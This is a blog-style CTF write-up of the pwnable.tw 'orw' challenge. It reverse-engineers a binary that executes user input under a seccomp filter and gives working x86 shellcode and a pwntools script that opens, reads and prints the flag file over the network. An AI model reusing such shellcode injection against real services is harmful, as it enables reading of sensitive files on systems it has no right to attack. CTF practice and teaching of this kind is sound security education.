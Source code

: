 ```yaml
---
layout: post
title:  "Open Read Write shellcoding"
date:   2019-09-09 10:55:00
categories: experience
---
```


# orw writeup [pwnable.tw]


Challenge description

	Read the flag from /home/orw/flag.
	Only open read write syscall are allowed to use.
	nc chall.pwnable.tw 10001


in this challenge we are given a binary , this is information about 
the binary 
	
	orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

and here are some of the protections that are active in this binary

<img src="/images/2019-12-04-135243_511x105_scrot.png">

yea, the NX protection is disabled , so we can run our code inside the stack segment

## Reverse engineering

okay we've got some information we need , now it's time to look at the decompilation 
let's open it on ghidra and see the main function

<img src="/images/2019-12-04-140618_359x196_scrot.png">

as you can see , we can input data up to 200 bytes and our input will be stored
at shellcode buffer , and after input the binary will jump to our buffer.
and if you notice that , there is orw_seccomp() function , let's use seccomp-tools 
to gathering more information 

<img src="/images/2019-12-04-141345_527x245_scrot.png">

this binary allow us to use those syscall, so we can try to open the flag inside 
/home/orw/flag and read the value from the buffer to another buffer , and write the buffer.
so it's time to write some asm  , before we write the exploit we have to see syscall code you can use this site
[here](https://syscalls.kernelgrok.com/) and search for sys_open , and this is what we go't

<img src="/images/2019-12-04-142625_952x76_scrot.png" class="center" style="width: 800px;">

## Exploit

so we have to set eax register to 0x5 and ebx to our file path and more

so firstly to open the file i make assembly code like this

<img src="/images/2019-12-04-144810_250x246_scrot.png">

it will xor eax with eax so the value will set to 0 and we do the same 
instructions for ecx , and mov eax with 0x5 (sys_open syscall) so now eax value will have
0x5 (sys_open syscall) , and after that i push ecx and the string (as hex) to stack 
and mov ebx with esp 

let's do read 

<img src="/images/2019-12-04-145249_222x159_scrot.png">

actually we mov eax with 0x3 (sys_read syscall) and mov ecx with ebx ,ecx is our buffer
and mov ebx with 0x3 because fd and mov dl as 0x30 for the size

and finally lets write it out

<img src="/images/2019-12-04-145735_225x117_scrot.png">

mov eax with 0x4 (sys_write syscall) and mov bl with 0x1 for fd 

and don't forget every time we write shellcode that call a syscall we have to use int 0x80 at the end of our shellcode ,  int 0x80 is the assembly language instruction that is used to invoke system calls in Linux on x86 (i.e., Intel-compatible) processors. 

here is my full exploit code :

{% highlight python %}
from pwn import *
def main():
	# sys_open()
	shellcode = asm('''
			xor 	eax, eax
			xor 	ecx, ecx
			mov 	eax, 0x5
			push 	ecx
			push 	0x67616c66       
			push 	0x2f77726f       
			push 	0x2f656d6f       
			push 	0x682f2f2f       
			mov 	ebx, esp
			int 	0x80
		''')
	# sys_read()
	shellcode += asm('''
			mov 	eax, 0x3
			mov 	ecx, ebx
			mov 	ebx, 0x3 
			mov 	dl, 0x30
			int 	0x80
		''')
	# sys_write()
	shellcode += asm(''' 
			mov 	eax, 0x4
			mov 	bl, 0x1
			int 0x80
		''')
	#r = process("./orw")
	r = remote("chall.pwnable.tw",10001)
	r.sendline(shellcode)
	r.interactive()
if __name__ == '__main__':
	main()
{% endhighlight %}


and here is our flag :
<img src="/images/2019-12-04-151953_496x97_scrot.png">